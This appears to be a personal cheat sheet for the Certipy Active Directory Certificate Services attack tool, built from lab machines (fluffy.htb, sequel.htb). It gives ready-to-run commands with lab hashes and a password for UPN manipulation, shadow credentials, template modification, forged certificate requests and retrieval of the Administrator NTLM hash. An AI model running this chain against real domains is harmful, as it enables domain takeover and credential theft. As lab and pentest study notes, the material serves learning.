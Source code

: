 # certipy

## Overview

## Usage

### Account

Change the UPN of target user:

```shell
certipy account -u ca_svc@fluffy.htb -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.179.157 -upn 'administrator' -user 'ca_svc' update
```

### Auth

Return a hash for the account of the private key

```shell
certipy auth -pfx ./administrator.pfx -dc-ip 10.129.251.172
```
```shell
faketime "$(ntpdate -q fluffy.htb | awk '{print $1" "$2}')" certipy auth -dc-ip '10.129.179.157' -pfx 'administrator.pfx' -username 'administrator' -domain 'fluffy.htb'
```

### Find

The find command is useful for enumerating AD CS certificate templates, certificate authorities and other configurations. The find operation searches for vulnerabilities such as missing or misconfigured certificates, insecure settings, or issues with Kerberos encryption types.

    -scheme <scheme>: This specifies which scheme should be used to communicate with the target Domain Controller.
    -k: The -k flag indicates that Kerberos authentication should be used for the request. Certipy will attempt to authenticate with the Kerberos tickets that are either provided or found in the Kerberos ticket cache
    -debug: The -debug flag enables debugging output.
    -target <target_name>.<domain_name>: DNS name of the target
    -dc <ip>: Domain Controller ip.
    -vulnerable: This flag tells Certipy to look for vulnerabilities related to Kerberos and Active Directory certificate configurations.
    -stdout: The -stdout flag indicates that Certipy should print its results to standard output, rather than saving them to a file.

```shell
KRB5CCNAME=$PWD/<victim_username_with_TGT>.ccache certipy-ad find -scheme <scheme> -k -debug -target <target_dns_name> -dc-ip <domain_controller_ip> -vulnerable -stdout
```

```shell
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.129.251.172 -vulnerable -stdout
```


Find vulnerabilities:

```shell
certipy-ad find -vulnerable -u ca_svc@fluffy.htb -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.193.226 -stdout
```

Find templates:

```shell
certipy find -u ca_svc@fluffy.htb -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.179.157 -stdout
```


### Req

Request a certificate:

```shell
KRB5CCNAME=$PWD/ca_svc.ccache faketime "$(ntpdate -q fluffy.htb | awk '{print $1" "$2}')" certipy req -k -dc-host '10.129.179.157' -target 'DC01.FLUFFY.HTB' -ca 'fluffy-DC01-CA' -template 'User'
```

```shell
certipy req -u ca_svc -hashes :{ca_svc_hash} -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip {ip} -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns {ip} -dns {ip}
```

Might need to be run multiple times to work

### Shadow Credentials

```shell
certipy-ad shadow auto -u <username>@<domain_name> -p '<password>' -dc-ip <domain_controller_ip> -ns <dns_server_ip> -target <domain_controller_name>.<domain_name> -account <username_victim>
```

Example : 
```shell 
certipy-ad shadow auto -u ryan@sequel.htb -p '<password>' -dc-ip 10.129.251.172 -ns 10.129.251.172 -target dc01.sequel.htb -account ca_svc
```
```shell
faketime "$(ntpdate -q fluffy.htb | awk '{print $1" "$2}')" certipy shadow auto -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip 10.129.193.226 -account 'winrm_svc'
```

### Template

This specifies the Kerberos template to use when requesting a Kerberos ticket. This template is used when performing actions like generating tickets or performing Kerberos-based attacks (like Pass-the-Ticket (PTT) or Golden Ticket).

Example: 
```shell 
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.129.251.172
```


## Examples

### Shadow Credentials

Do a shadow crendentials attack to get a TGT for the account ca_svc

```shell
certipy-ad shadow auto -u ryan@sequel.htb -p '<password>' -dc-ip 10.129.251.172 -ns 10.129.251.172 -target dc01.sequel.htb -account ca_svc
```

With the TGT of ca_svc specify a template and get a private key for the Administrator account:

```shell
    KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.129.251.172
    certipy-ad req -u ca_svc -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip 10.129.251.172 -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns 10.129.251.172 -dns 10.129.251.172
```

Finally authenticate with the private key and get the NTLM hash for the Administrator account:

```shell
    certipy-ad auth -pfx ./administrator_10.pfx -dc-ip 10.129.251.172
```